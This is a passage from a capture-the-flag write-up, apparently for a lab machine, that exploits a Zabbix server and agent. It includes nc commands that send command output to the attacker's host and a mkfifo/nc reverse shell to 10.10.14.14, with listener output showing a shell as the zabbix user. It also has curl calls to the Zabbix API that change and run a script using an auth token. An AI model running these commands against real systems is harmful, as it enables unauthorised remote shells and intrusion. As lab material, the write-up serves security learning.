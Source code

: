 That’s because the agent is filtering out input that comes from anything but the Zabbix host. But with RCE on the Zabbix host, I can send commands. The output isn’t sent back, but I can pipe it into nc and send it back to my host:

```

[zabbix_cmd]>>:  echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
ZBXD8

```

```

root@kali# nc -lnp 443
zipper

```

I can pivot that RCE into a shell:

```

[zabbix_cmd]>>:  echo "system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f]" | nc 10.10.10.108 10050
ZBXD8

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:38512.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)

```

It dies quickly, but I can fix that like I did in the previous section.

### Path 3 - Admin Creds on Zabbix to GUI

#### Shell on Zabbix

This time, I’ll get a shell on Zabbix by changing the `execute_on` parameter to 1 in the script I was using to get a shell in the first path:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "execute_on": 1}}' | jq -c .
{"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 4}}' | jq . 

```

